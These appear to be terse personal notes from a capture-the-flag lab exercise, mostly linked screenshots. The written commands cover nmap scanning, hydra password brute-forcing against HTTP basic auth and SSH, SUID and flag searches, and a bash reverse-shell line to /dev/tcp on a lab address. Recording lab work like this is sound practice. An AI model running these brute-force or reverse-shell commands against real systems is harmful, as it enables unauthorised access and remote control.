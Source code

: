 ```yaml
---
tags: []
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![](https://i.imgur.com/tHI2XTr.png)
![](https://i.imgur.com/zDYaCOo.png)
![](https://i.imgur.com/j91Why2.png)
![](https://i.imgur.com/q0VnnIQ.png)
![](https://i.imgur.com/fYH07pU.png)
![](https://i.imgur.com/PwZ7OPm.png)
![](https://i.imgur.com/swWh73v.png)
![](https://i.imgur.com/RP6nULv.png)
![](https://i.imgur.com/LXOBUyI.png)
![](https://i.imgur.com/qAzMgsR.png)
![](https://i.imgur.com/JzQxk21.png)
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![](https://i.imgur.com/te7iJGH.png)
![](https://i.imgur.com/xRTQq5n.png)
`FLAG{use_secure_credentials}`
![](https://i.imgur.com/Y5ivt2h.png)
![](https://i.imgur.com/AtXi9lB.png)
![](https://i.imgur.com/di16GFC.png)
![](https://i.imgur.com/gY0Oxyp.png)
`ls -R *`
![](https://i.imgur.com/4qrGK7s.png)
![](https://i.imgur.com/MdvNqDN.png)
![](https://i.imgur.com/2Xhqji1.png)
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![](https://i.imgur.com/0LOwRRt.png)
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![](https://i.imgur.com/nJoBuRJ.png)
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![](https://i.imgur.com/0KhHbmc.png)
![](https://i.imgur.com/UGcn08t.png)
![](https://i.imgur.com/MFNTBGs.png)
![](https://i.imgur.com/Z885wJP.png)
![](https://i.imgur.com/ziYwvHF.png)
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![](https://i.imgur.com/ne9aUCq.png)
![](https://i.imgur.com/XJU4hYR.png)
![](https://i.imgur.com/WUgbYOs.png)
suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
![](https://i.imgur.com/QgQfBOA.png)
![](https://i.imgur.com/gePh9t6.png)
![](https://i.imgur.com/08agQET.png)
![](https://i.imgur.com/I9rJQwE.png)

![](https://i.imgur.com/Qe0IOYA.png)
![](https://i.imgur.com/4dCQ13z.png)
die /tmp flag geht nicht